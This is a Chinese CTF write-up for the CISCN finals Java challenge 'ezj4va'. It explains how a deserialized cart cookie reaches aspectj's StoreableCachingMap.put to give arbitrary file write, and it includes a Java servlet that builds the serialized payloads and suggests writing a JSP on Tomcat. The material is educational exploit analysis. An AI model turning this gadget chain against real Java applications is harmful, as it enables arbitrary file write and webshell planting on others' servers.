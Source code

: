 ### 前言

这次 国赛决赛 有道 java 题感觉还不错，个人认为很适合初学反序列化的人

题目文件上传在了 github 上 ：

<https://github.com/liey1/timu/blob/main/ciscn%20ezj4va.zip>

### 项目运行

首先，直接把项目拖进idea是无法运行的，比较简单的方法是，拖进去后：

`右键项目文件夹` -&gt; `Add Framework Support` -&gt; `选中 Web Application`

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c247ca8be98f13e1851749489b1343bf50e6cd7d.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c247ca8be98f13e1851749489b1343bf50e6cd7d.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-220a9381a0c6b316b44fed257948beb94e11faae.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-220a9381a0c6b316b44fed257948beb94e11faae.png)

完成后添加一下 `Tomcat Server` 修改一下 `Application Context` 即可。

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0739dbe7d902b8f074cf9fee01c3333c3249899f.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0739dbe7d902b8f074cf9fee01c3333c3249899f.png)

启动项目，即可正常访问了

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d9996f74e2937a8704979f8ac5959efd29891a71.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d9996f74e2937a8704979f8ac5959efd29891a71.png)

### 漏洞分析

通过阅读文件很容易发现漏洞点在 `Deserializer` ：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-964d06994e8c0f7390dcccf9c7160c08ee715b03.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-964d06994e8c0f7390dcccf9c7160c08ee715b03.png)

查看`pom`的依赖会发现没有常用的反序列化链可用。

但是此处有 `aspectj`，这里学习了一下这篇文章的`知识点4`

<https://www.cnblogs.com/sijidou/p/14631154.html>

`yso`也加入了这个链，不过需要配合 `CC`：

<https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/AspectJWeaver.java>

可以知道漏洞点 `SimpleCache`下的`StoreableCachingMap` 的 put 函数，我们只需要找到一个调用`put`函数，并且可以控制参数的地方。

找到 `CartServiceImpl`的 `addToCart`函数：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-7a464a472b775e2e95df91263f7224868f2c053d.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-7a464a472b775e2e95df91263f7224868f2c053d.png)

这里的 `skuPrice` 是 `cart` 的 `skuPrice`，`cart`是这道题自定义的一个类，并且是可被序列化的

36行的 `cart`是 `oldCartStr` 进行了反序列化，找到调用这个函数的地方，

找到在 `CartController`下的 `add` 函数，根据路由发现，可以通过 `/cart/add`直接访问

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c0cac5899f7b290468b950c43e66377d089ab62d.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c0cac5899f7b290468b950c43e66377d089ab62d.png)

这里的 `skus` 通过参数传递，然后 `oldCart`是 `cookie`中的 `cart`。

再回到 `addToCart`:

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-6e95d0fd84da17358b056c8514d23c9696d21c77.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-6e95d0fd84da17358b056c8514d23c9696d21c77.png)  
这里 `put`调用 `put` 时的 `键` 和 `值` 是通过第一个参数反序列化后，获取了 `skuDescribe`，然后调用了 `entrySet`，第一次参数也是可控的，所以可以把 `skuPrice` 设置成 `HashMap`即可。

这样 `put` 的参数也可控了，我们可以写一个 `TestController` 测试一下：

```java
package ciscn.fina1.ezj4va.controller;

import ciscn.fina1.ezj4va.domain.Cart;
import ciscn.fina1.ezj4va.utils.Serializer;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

@WebServlet(urlPatterns = ("/test"))
public class TestController extends HttpServlet {

    protected String getSkus() {
        try {
            Cart cart = new Cart();
            Field sku_f = cart.getClass().getDeclaredField("skuDescribe");
            sku_f.setAccessible(true);
            HashMap hashMap = new HashMap<>();
            String values = "abc";
            hashMap.put("test", values.getBytes());
            sku_f.set(cart, hashMap);
            return Serializer.serialize(cart);
        } catch (Exception e) {
            e.printStackTrace();
        }
        return "";
    }

    protected String getOldCart() {
        try {
            Cart cart = new Cart();
            Field sku_f = cart.getClass().getDeclaredField("skuDescribe");
            sku_f.setAccessible(true);
            Class clazz = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
            Constructor constructor = clazz.getDeclaredConstructors()[0];
            constructor.setAccessible(true);
            Object o = constructor.newInstance("C:/test/", 1);
            sku_f.set(cart, o);
            return Serializer.serialize(cart);

        } catch (Exception e) {
            e.printStackTrace();
        }
        return "";
    }

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String payload = "";

        resp.getWriter().println("oldStr:"+getOldCart());
        resp.getWriter().println();
        resp.getWriter().println();
        resp.getWriter().println("skus:" + getSkus());

    }
}

```

`oldStr` 传给 `Cookie` 的 `cart`，`skus`传给 `post`，`skus`需要 `url` 编码一下：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-49e9d072a05101c25725012db9509cbc65177b27.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-49e9d072a05101c25725012db9509cbc65177b27.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ec5fb3bc50d9ed5e82501286725b3dededd5f33e.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ec5fb3bc50d9ed5e82501286725b3dededd5f33e.png)  
写入成功。

这道题是 `Tomcat` 环境，直接写入 `jsp` 即可。

`payload` 中这里用的是题目已经帮我们写好的序列化方法。

这里有几个小细节，就是 `put` 方法中:

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-cc0eb16e8b877677e849cc4bf31b82cf63330481.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-cc0eb16e8b877677e849cc4bf31b82cf63330481.png)

此处的 `value` 强转成了 `byte[]`，所以我们也需要转换成 byte 数组。

然后 `writeToPath`中：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d3a59e7cab9721475176eb9c2457bd0888f41d4f.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d3a59e7cab9721475176eb9c2457bd0888f41d4f.png)  
`this.folder`为初始化时传入的路径：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-062c8b75f2fde974f7915714978e4ee305d0f4b0.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-062c8b75f2fde974f7915714978e4ee305d0f4b0.png)

至此漏洞利用就完成了。

### 总结

这道题不像 CC 链那样一大串，这其实就是反序列化然后直接调用了 `SimpleCache`.`StoreableCachingMap` 下的 `put` 方法，主要依赖的还是这道题自带的 `addToCart` 函数造成任意文件写入